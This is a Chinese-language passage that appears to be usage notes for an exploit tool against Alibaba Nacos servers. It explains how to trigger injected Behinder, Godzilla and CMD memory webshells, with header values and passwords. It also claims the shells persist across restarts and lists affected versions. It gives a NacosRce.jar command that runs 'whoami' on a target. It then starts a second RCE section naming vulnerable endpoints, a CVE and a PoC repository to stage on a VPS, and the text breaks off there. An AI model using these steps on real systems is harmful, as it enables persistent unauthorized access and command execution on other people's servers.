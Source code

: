 3、路径随意  
  
4、密码rebeyond  
  
二、哥斯拉内存马：  
  
1、需要设置请求头x-client-data:godzilla  
  
2、设置Referer:https://www.google.com/  
  
3、路径随意  
  
4、密码是pass 和 key  
  
三、CMD内存马：  
  
1、需要设置请求头x-client-data:cmd  
  
2、设置Referer:https://www.google.com/  
  
3、请求头cmd:要执行的命令  
  
v0.5版本实现了：  
  
1、不出网漏洞利用  
  
2、可多次发起漏洞利用  
  
3、同时注入冰蝎/哥斯拉/CMD内存马  
  
4、内存马对nacos多版本进行了兼容  
  
tips:  
  
1、请用jdk1.8  
  
2、适用于 Nacos 2.x <= 2.2.2  
  
3、非集群的也能打哦  
  
4、此内存马重启nacos依然存活  
  
关于Windows  
  
如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件  
  
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows  
  
如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功  
  
windows 没打成功也许是因为没权限操作C盘或其他原因  
## 9. Nacos RCE  
  
这个漏洞涉及两个路径，其中derby其实就是CVE-2021-29441  
  
/nacos/v1/cs/ops/data/removal  
  
/nacos/v1/cs/ops/derby  
  
测试版本：nacos1.4.0（2.3.2也成功），默认状态  
  
下载poc：GitHub - FFR66/Nacos_Rce: 网传nacos_rce漏洞poc，并上传到vps上  
  
1. 在vps启动  
  